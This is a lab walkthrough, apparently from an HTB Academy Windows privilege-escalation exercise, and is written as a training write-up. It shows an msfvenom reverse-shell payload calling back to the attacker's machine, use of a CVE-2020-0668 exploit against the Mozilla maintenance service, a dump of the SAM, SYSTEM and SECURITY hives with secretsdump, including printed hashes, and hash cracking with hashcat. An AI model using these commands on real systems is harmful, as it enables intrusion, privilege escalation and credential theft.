 Once connected by RDP we have to find iamtheadministrator credentials. By running `findstr /SIM /C:"iamtheadministrator" *.txt *.ini *.cfg *.config *.xml` we found a file in `C:\Windows\Panther\unattend.xml` where we can find the password.

Now following the Kernel Explois section, we find the machine vulnerable to CVE-2020-0668 so we download the executable and it dependencies **[from here](https://github.com/bypazs/CVE-2020-0668.exe/blob/main/CVE-2020-0668.exe)** (you can compile from source if you want) and like the section, we will attack the maintenanceservice binary

```shell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe" 

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe 
	NT AUTHORITY\SYSTEM:(I)(F) 
	BUILTIN\Administrators:(I)(F) 
	BUILTIN\Users:(I)(RX) 
	APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX) 
	APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

Now we create a payload pointing to our machine and transfer all the files (do not forget the dependencies of the exploit) to the attack machine by authenticated smb server 

```bash
┌──(kali㉿kali)-[~/Documents/Academy/Windows-privilege-escalation/lab-medium]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.241 LPORT=9001 -f exe > maintenanceservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

I used a x86 payload because a x64 was throwing me errors

![[Pasted image 20231125100717.png]]

And now we can execute the binary as htb-student

![[Pasted image 20231125100854.png]]

![[Pasted image 20231125104757.png]]

And we are nt authority/system

Now, we can retrieve the sam, system and security files and dump the hashes with secretsdump

```bash
C:\Windows\system32>reg.exe save hklm\sam n:\sam.save
reg.exe save hklm\sam n:\sam.save
The operation completed successfully.

C:\Windows\system32>reg.exe save hklm\system n:\system.save
reg.exe save hklm\system n:\system.save
The operation completed successfully.

C:\Windows\system32>reg.exe save hklm\security n:\security.save
reg.exe save hklm\security n:\security.save
The operation completed successfully.

----------------

┌──(kali㉿kali)-[~/Documents/Academy/Windows-privilege-escalation/lab-medium]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xfab4b2e32a415ea36f846b9408aa69af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6b4dacb8dbcf0533bbe34dc66cc0fb8848b0e8ba
dpapi_userkey:0xa61d37e2c548f9206031efff6633f3fb836dbdd6
[*] NL$KM 
 0000   84 AF 72 07 AA 56 82 65  33 F2 C4 60 C3 72 AF C7   ..r..V.e3..`.r..
 0010   E3 0B 71 ED C9 AF 49 1E  89 E5 DA A1 07 5E 7F 88   ..q...I......^..
 0020   65 EC 26 AF 2D A9 2A DC  9C E6 36 7D 9A 2F D9 F6   e.&.-.*...6}./..
 0030   57 44 B6 06 A6 57 7E 29  CD 30 B2 8F 7F 86 CB 47   WD...W~).0.....G
NL$KM:84af7207aa56826533f2c460c372afc7e30b71edc9af491e89e5daa1075e7f8865ec26af2da92adc9ce6367d9a2fd9f65744b606a6577e29cd30b28f7f86cb47
[*] Cleaning up...
```

And crack it with hashcat

```bash
┌──(kali㉿kali)-[~/Documents/Academy/Windows-privilege-escalation/lab-medium]
└─$ sudo hashcat -m 1000 hashtocrack /usr/share/wordlists/rockyou.txt
[sudo] password for kali: 
hashcat (v6.2.6) starting
[...SNIP...]

5835048ce94ad0564e29a924a03510ef:password1

[...SNIP...]
```
